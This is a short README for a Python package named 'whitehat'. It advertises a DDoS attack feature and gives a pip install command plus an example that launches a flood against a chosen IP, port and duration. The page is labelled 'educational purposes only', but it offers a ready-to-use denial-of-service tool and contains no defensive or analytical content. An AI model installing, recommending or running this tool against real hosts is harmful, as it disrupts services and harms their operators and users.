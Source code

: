 [![PyPI - Downloads](https://img.shields.io/pypi/dm/whitehat?color=white&label=Downloads&logo=python)](https://pypi.org/project/whitehat)
[![PyPI](https://img.shields.io/pypi/v/whitehat?label=PyPI%20Version&logo=pypi)](https://pypi.org/project/whitehat)
[![Discord](https://img.shields.io/discord/887650006977347594?color=blue&label=EterNomm&logo=discord)](https://discord.com/invite/qpT2AeYZRN)
[![Discord](https://img.shields.io/discord/835863428450877441?color=blue&label=NekoIceTeam&logo=discord)](https://discord.com/invite/hNtA2uEb7J)

# Whitehat

⚠️ **WARNING THIS PYTHON LIBRARY FOR EDUCATIONAL PURPOSES ONLY** ⚠️

## Features
- DDoS
- More features soon!

## Install
`pip install whitehat`

## Example
- ### DDoS
```
import whitehat

ddos = whitehat.ddos_target("0.0.0.0", 80, 1200)  #IP, PORT, DURATION
whitehat.start_ddos(ddos)
```
